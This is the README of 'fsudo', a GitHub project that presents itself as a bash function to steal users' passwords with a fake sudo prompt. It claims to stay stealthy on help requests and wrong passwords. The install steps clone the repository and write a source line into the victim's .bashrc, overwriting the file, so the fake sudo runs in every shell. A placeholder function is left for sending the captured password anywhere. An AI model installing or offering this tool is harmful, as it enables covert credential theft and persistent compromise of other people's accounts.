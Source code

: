# fsudo
It's just a bash function to steal the users password, while trying to be stealth handling scenarios like the user asking for the sudo help or the user giving the wrong password among other scenarios.

# Install
```bash
git clone https://github.com/mthbernardes/fsudo.git
cd fsudo
echo "source `pwd`/fakesudo.sh" > /home/$USER/.bashrc
```

# Get the password
Just edit the function `sendPassword` to do whatever you want with the password.
